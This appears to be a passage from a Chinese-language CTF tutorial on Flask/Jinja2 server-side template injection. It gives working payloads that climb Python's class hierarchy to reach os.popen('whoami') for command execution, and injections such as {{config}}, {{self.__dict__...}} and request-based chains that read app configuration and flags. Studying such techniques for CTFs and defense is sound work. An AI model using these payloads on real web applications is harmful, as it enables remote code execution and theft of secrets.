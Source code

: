 - os

```
<class 'inspect.BlockFinder'> 214
<class 'inspect.Parameter'> 217
<class 'inspect.BoundArguments'> 218
<class 'inspect.Signature'> 219
<class 'logging.LogRecord'> 232
<class 'logging.PercentStyle'> 233
<class 'logging.Formatter'> 234
<class 'logging.BufferingFormatter'> 235
<class 'logging.Filter'> 236
<class 'logging.Filterer'> 237
<class 'logging.PlaceHolder'> 238
<class 'logging.Manager'> 239
<class 'logging.LoggerAdapter'> 240
<class 'pathlib._Flavour'> 244
<class 'pathlib._Selector'> 246
<class 'subprocess.STARTUPINFO'> 258
<class 'subprocess.CompletedProcess'> 259
<class 'subprocess.Popen'> 260
<class 'gzip._PaddedFile'> 271

().__class__.__base__.__subclasses__()[214].__init__.__globals__['os'].popen('whoami').read()
```

### 获取配置信息

我们有时候可以使用flask的内置函数比如说`url_for`，`get_flashed_messages`，甚至是内置的对象`request`来查询配置信息或者是构造payload

- `config`

我们通常会用`{{config}}`查询配置信息，如果题目有设置类似`app.config ['FLAG'] = os.environ.pop('FLAG')`，就可以直接访问`{{config['FLAG']}}`或者`{{config.FLAG}}`获得flag

但是如果被过滤了

```
{{self}} ⇒ <TemplateReference None>
{{self.__dict__._TemplateReference__context.config}} ⇒ 同样可以找到config
```



- `request`

jinja2中存在对象`request`

```
Python 3.9.1
>>> from flask import Flask,request,render_template_string
>>> request.__class__.__mro__[1]
<class 'object'>
```

查询一些配置信息

```python
{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config}}
```
